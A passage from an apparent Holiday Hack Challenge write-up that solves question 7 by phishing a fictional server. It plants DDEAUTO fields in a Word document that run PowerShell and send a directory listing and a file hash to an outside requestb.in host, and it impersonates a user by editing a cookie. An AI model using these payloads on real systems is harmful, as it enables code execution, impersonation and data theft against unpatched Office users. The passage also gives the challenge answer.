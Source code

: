 > Note that this vulnerability was fixed in a MS Office update (just in time for HHC!), so make sure you read https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/ADV170021 before trying to reproduce it on your own machine.

We will use ```MEMO - Calculator Access for Wunorse.docx``` as our starting point for this attack. In the document we will set up the following command:

```
{DDEAUTO c:\\windows\\system32\\cmd.exe "/c powershell.exe -c 
(New-Object System.Net.WebClient).DownloadString
('https://requestb.in/qfa38mqf?'+(dir c:\\))"}
```

We will then send the document containing the command to Alabaster Snowball using our EWA access (we can change the cookie to impersonate Shinny Upatree). Note that the e-mail must contain reference to "gingerbread cookie recipe".

After a little while the vulnerability will be triggered on the server and we will get the following directory listing exfiltrated:

```
inetpub
Logs
Microsoft
PerfLogs
Program Files
Program Files (x86)
python
Users
Windows
GreatBookPage7.pdf 
```

Now we can calculate the SHA1 hash of ```GreatBookPage7.pdf``` by sending another command in a document:

```
{DDEAUTO c:\\windows\\system32\\cmd.exe "/c powershell.exe -c 
(New-Object System.Net.WebClient).DownloadString
('https://requestb.in/qfa38mqf?'+(Get-FileHash 
C:\\GreatBookPage7.pdf -Algorithm SHA1))"}
```

The extracted data contains the hash that we can use to unlock the book page:

```
@{Algorithm=SHA1; Hash=C1DF4DBC96A58B48A9F235A1CA89352F865AF8B8; 
Path=C:\GreatBookPage7.pdf} 
```

The answer to the seventh challenge question:

> Q: 7) Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI) to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from C:\GreatBookPage7.pdf. What does The Great Book page describe?
>
> A: The page describes the Witches of Oz. They remained neutral in the war between Elves and Munchkins, and were never sighted in the North Pole.
